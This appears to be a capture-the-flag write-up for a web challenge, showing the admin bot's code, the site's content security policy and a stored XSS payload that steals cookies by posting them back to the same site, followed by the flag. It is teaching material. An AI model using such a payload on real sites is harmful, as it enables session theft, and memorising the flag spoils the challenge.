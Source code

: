 # Blogspot
Category: Web | 425pts

## Challenge Description
> Jaga created an internal social media platform for the company, can you leak anyone's information?

## Analysis
Glancing through the source code provided and challenge website, we can guess that this challenge is about Cross-Site Scripting (XSS) attacks, more specifically reflected XSS, for the following reasons:
- There is an admin bot with the flag in its cookies that visits the posts you wrote (and hence control) everytime you submit a new post  
	<details>
	<summary>Relevant code from admin bot</summary>

	```js
	export const viewPosts = async () => {
		try {
			const browser = await puppeteer.launch(browser_options);
			let context = await browser.createIncognitoBrowserContext();
			let page = await context.newPage();

			let token = await sign({ username: 'admin' });
			await page.setCookie({
				name: "session",
				'value': token,
				domain: "127.0.0.1",
			});
			await page.setCookie({
				name: "flag",
				'value': "REDACTED",
				domain: "127.0.0.1",
			});
			await page.goto('http://127.0.0.1:1337/blog', {
				waitUntil: 'networkidle2',
				timeout: 8000
			});
			await browser.close();
		} catch(e) {
			console.log(e);
		}
	};
	```
	</details>

<br>
<br>
However, at the same time, there is a content security policy we have to take note of:
```js
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
```

## Solution
We can use the following payload as a post to get the flag:
```js
qqq<script>xhr4=new XMLHttpRequest();var url4='/post';var a=document.cookie;xhr4.open('POST',url4,true);xhr4.setRequestHeader('Content-Type','application/json');var data=JSON.stringify({"title":"here","content":a});xhr4.send(data);</script>
```

## Explanation
Upon loading the page, the bot runs the script and sends a POST request to the `/post` endpoint with the flag in the body. The flag is then displayed on the page.

## Flag
`STF22{s1mpl3_p0stxSs:)}`